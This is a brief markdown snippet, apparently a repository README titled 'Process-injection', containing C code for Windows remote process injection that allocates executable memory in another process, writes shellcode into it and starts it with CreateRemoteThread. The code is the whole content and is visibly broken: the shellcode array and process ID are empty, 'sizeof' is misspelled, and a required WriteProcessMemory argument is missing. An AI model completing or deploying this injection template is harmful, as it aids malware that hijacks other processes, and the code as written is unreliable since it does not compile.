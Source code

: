 # Process-injection

#include <stdio.h> </br>
#include <windows.h> </br>

int main() </br>
{ </br>
    char shellcode[] = {}; </br>
    HANDLE hProcess; </br>
    HANDLE hThread; </br>
    void* exec_mem; </br>
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, ); </br>
    exec_mem = VirtualAllocEX(hProcess, NULL, sixeof(shellcode) , MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); </br>
    WriteProcessMemory(hProcess, exec_mem, sizeof(shellcode)); </br>
    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, 0); </br>
    CloseHandle(hProcess); </br>
    return 0; </br>

} </br>
